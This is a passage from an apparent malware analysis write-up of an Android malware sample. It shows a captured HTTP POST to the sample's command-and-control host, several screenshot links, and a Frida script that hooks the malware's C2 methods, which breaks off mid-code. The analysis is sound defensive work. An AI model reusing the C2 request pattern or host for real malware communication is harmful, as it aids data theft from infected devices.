 **Malformed Packet**
```js
POST / HTTP/1.1
Content-Length: 285
Content-Type: application/x-www-form-urlencoded
User-Agent: Dalvik/2.1.0 (Linux; U; Android 10; Pixel 3 Build/QQ1D.200105.002)
Host: 1z06mx6i9sdxxh1xaspbj87fh8qy8pu0.xyz
Connection: close
Accept-Encoding: gzip, deflate, br

data=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

<img src="https://i.imgur.com/vxOK1q0.png" alt="img_1">


<img src="https://i.imgur.com/PGS6wvM.png" alt="img_1">


<img src="https://i.imgur.com/q1SsFh4.png" alt="img_1">



<img src="https://i.imgur.com/avrqeh9.png" alt="img_1">


<img src="https://i.imgur.com/XpUtkR3.png" alt="img_1">


<img src="https://i.imgur.com/m8f2wd3.png" alt="img_1">


<img src="https://i.imgur.com/2FFi0LK.png" alt="img_1">


<img src="https://i.imgur.com/jPrdih5.png" alt="img_1">


<img src="https://i.imgur.com/HBMbZT6.png" alt="img_1">


<img src="https://i.imgur.com/fYj7wIC.png" alt="img_1">


<img src="https://i.imgur.com/EpwxBnq.png" alt="img_1">

After delving deeper, I found another interesting detail: `tychef`.

<img src="https://i.imgur.com/FrSvlu8.png" alt="img_1">



C2 communication can also be hooked using Frida.

```js
Java.perform(()=>{
Java.openClassFile("/data/user/0/com.cliff.own/app_DynamicOptDex/hjAWR.json").load();

let a = Java.use("ru.plaintiff.whale.c$a");
a["doInBackground"].implementation = function (str, str2) {
    console.log(`a.doInBackground is called str=${str}, str2=${str2}`);
    let result = this["doInBackground"](str, str2);
    console.log(`a.doInBackground result=${result}`);
    return result;
};


let c = Java.use("ru.plaintiff.whale.c");
c["a"].implementation = function (str, str2) {
```